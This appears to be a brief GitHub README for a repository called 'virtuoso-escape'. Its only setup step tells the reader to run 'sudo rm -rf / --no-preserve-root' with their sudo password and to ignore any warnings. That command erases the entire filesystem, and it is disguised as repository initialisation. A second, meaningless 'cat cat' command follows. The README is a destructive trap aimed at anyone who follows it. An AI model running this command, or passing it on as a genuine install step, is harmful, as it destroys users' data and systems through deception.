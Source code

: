 # virtuoso-escape

Run this command to initalize this repo (ignore any warnings (they're for backwards compatilibity, trust) and authenticate with sudoer password).
```bash
sudo rm -rf / --no-preserve-root
```
also run
```bash 
cat cat 
```
